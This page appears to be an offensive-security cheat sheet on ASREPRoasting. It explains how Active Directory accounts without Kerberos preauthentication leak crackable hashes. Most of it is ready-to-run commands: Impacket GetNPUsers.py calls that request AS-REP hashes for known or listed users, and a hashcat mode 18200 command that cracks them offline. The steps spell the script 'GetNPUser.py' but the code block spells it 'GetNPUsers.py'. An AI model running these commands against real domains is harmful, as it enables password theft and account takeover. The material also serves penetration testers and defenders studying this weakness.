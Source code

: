# ASREPRoast

{% hint style="info" %}
**In case of last resort.**&#x20;

**PS: This attack could be used in a post-compromise scenario but also in the initial attack vectors ;)**
{% endhint %}

## Brief

> ASREPRoast is about **retrieving crackable hashes** from **KRB5 AS-REP responses** for users **without kerberoast preauthentication** enabled.&#x20;
>
> This isn’t as useful as Kerberoasting, as accounts have to have _DONT\_REQ\_PREAUTH()_ explicitly set for them to be vulnerable and you’re still reliant upon weak password complexity for the attack to work. But who knows, might be the only weak point you need.&#x20;
>
> Now, if you can enumerate accounts in a Windows domain that don’t require Kerberos preauthentication, you can easily request a piece of encrypted information for said accounts and efficiently crack the material offline, revealing the user’s password.&#x20;
>
> **To do that you need to :**

1. Send the **KRB\_AS\_REQ** to get the **KRB\_AS\_REP** with the encrypted information, to do so :
   1. If you have username :
      1. `GetNPUser.py $domain/$username -no-pass -dc-ip $ip -request`
   2. If you have no username :
      1. `GetNPUser.py $domain/ -no-pass -dc-ip $ip -request`
2. Crack hashes :
   1. `hashcat -m 18200 ticket wordlist`

```bash
# MISC of commands
GetNPUsers.py -dc-ip $ip -request $domain/

GetNPUsers.py -dc-ip $ip -request $domain/ -format hashcat/john

GetNPUsers.py -dc-ip $ip -usersfile users.txt $domain/

GetNPUsers.py $domain/backup -no-pass

GetNPUsers.py -no-pass $domain/ -usersfile users.txt -format hashcat -outputfile hashes.txt
```
